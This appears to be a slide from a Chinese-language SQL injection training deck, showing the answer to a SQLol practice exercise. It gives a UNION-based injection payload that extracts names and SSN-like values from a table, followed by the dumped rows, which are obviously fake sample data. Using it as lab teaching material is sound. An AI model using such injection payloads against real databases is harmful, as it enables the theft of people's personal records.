

# SQL注入实例 – SQLol（2）答案
显示所有字段
1 and 1=2 union select concat_ws(char(32,58,32),name , ssn) from ssn; #
Array ( [username] => Wengdack Slobdegoob : 000-00-1112 ) 
Array ( [username] => Herp Derper : 012-34-5678 ) 
Array ( [username] => Peter Weiner : 111-22-3333 ) 
Array ( [username] => Chunk MacRunfast : 666-67-6776 ) 
Array ( [username] => SlapdeBack LovedeFace : 999-99-9999 )